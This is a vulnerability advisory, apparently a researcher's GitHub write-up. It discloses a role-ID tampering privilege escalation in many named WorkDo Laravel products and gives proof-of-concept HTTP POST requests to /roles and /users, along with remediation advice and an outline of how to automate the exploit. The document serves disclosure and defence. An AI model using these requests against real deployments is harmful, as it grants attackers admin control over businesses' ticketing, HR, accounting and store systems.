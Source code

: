 # 🔓 WorkDo Products - Privilege Escalation via Role Manipulation

📌 **Product Information**  
**Platform**: Laravel  
**Affected Feature**: Role & User Creation  
**Tested Vulnerability**: Privilege Escalation via `role` ID Tampering  
**CVE**: Not Assigned  
**Severity**: Critical (Authentication User to Admin via Account Setup)  
**CWE ID**: CWE-269  
**CWE Name**: Improper Privilege Management  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 13, 2025  
**Researcher**: yucaerin  
**Vendor**: [WorkDo](https://codecanyon.net/user/workdo)

**Vulnerable Products**:
- [TicketGo - Support Ticket System](https://codecanyon.net/item/ticketgo-support-ticket-system/23051838)
- [Taskly - Project Management Tool](https://codecanyon.net/item/taskly-project-management-tool/24264721)
- [Taskly SaaS - Project Management Tool](https://codecanyon.net/item/taskly-saas-project-management-tool/24490506)
- [AccountGo - Accounting and Billing Tool](https://codecanyon.net/item/accountgo-accounting-and-billing-tool/25725131)
- [AccountGo SaaS - Accounting and Billing Tool](https://codecanyon.net/item/accountgo-saas-accounting-and-billing-tool/25733019)
- [HRMGo - HRM and Payroll Tool](https://codecanyon.net/item/hrmgo-hrm-and-payroll-tool/25982864)
- [HRMGo SaaS - HRM and Payroll Tool](https://codecanyon.net/item/hrmgo-saas-hrm-and-payroll-tool/25982934)
- [StoreGo - SaaS Online Store Builder](https://codecanyon.net/item/storego-saas-online-store-builder/31116337)
- [WhatsStore - SaaS Online WhatsApp Store Builder](https://codecanyon.net/item/whatsstore-saas-online-whatsapp-store-builder/32111583)
- [ERPGo SaaS - All-in-One Business ERP](https://codecanyon.net/item/erpgo-saas-all-in-one-business-erp-with-project-account-hrm-crm-pos/33263426)
- [ERPGo - All-in-One Business ERP](https://codecanyon.net/item/erpgo-all-in-one-business-erp-with-project-account-hrm-crm-pos/33263435)
- [vCardGo SaaS - Digital Business Card Builder](https://codecanyon.net/item/vcardgo-saas-digital-business-card-builder/34885397)
- [EcommerceGo SaaS - Ecommerce Store](https://codecanyon.net/item/ecommercego-saas-ecommerce-store-with-multi-theme-and-multi-store/45984492)
- [AdvocateGo SaaS - Legal Practice Management](https://codecanyon.net/item/advocatego-saas-legal-practice-management/46105956)
- [BookingGo SaaS - Multi Business Appointment Booking](https://codecanyon.net/item/bookinggo-saas-multi-business-appointment-booking-and-scheduling/50585829)

---

⚠️ **Summary of the Vulnerability**  
In many WorkDo products, user role creation and assignment lack proper access controls. A user can escalate privileges by:

1. Creating a role with full admin permissions via:
```
POST /roles
```

2. Creating a user account with the crafted role (e.g., `role=4`) via:
```
POST /users
```

3. Manually modifying the `role` ID from a basic role (e.g., 4) to `role=1` (typically admin).

## 🧪 Proof of Concept (PoC)  

### ➤ Step 1 - Create Role with Admin Permissions
```http
POST /roles
Content-Type: application/x-www-form-urlencoded

_token=[CSRF_TOKEN]&name=testadminrole&permissions[]=1&permissions[]=2&...&permissions[]=48
```

### ➤ Step 2 - Register a New User with the Custom Role
```http
POST /users
Content-Type: application/x-www-form-urlencoded

_token=[CSRF_TOKEN]&name=testuser&email=test@example.com&password=123123123&role=4&is_login=on
```

### ➤ Step 3 - Modify Role Assignment
Change `role=4` to `role=1` manually or via direct POST request to escalate privileges.

✅ **Indicators of Success**:
- Redirect to admin dashboard
- Admin-only menus become accessible
- Access to system settings and user management

## 🔍 Where’s the Flaw?
- No server-side verification of who is allowed to create roles or assign them.
- Client input on `role` field is trusted blindly.
- Missing RBAC enforcement on critical endpoints.

## 🔐 Recommendation
- Restrict role creation and modification to verified admin users.
- Validate user permissions server-side before allowing `role` assignment.
- Implement audit logs for role-related actions.

## ⚙️ Optional Automation Features
An automated exploit could:
- Register user
- Retrieve CSRF token
- Modify role via crafted POST
- Confirm privilege escalation

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** target systems without explicit permission. Unauthorized exploitation is illegal.
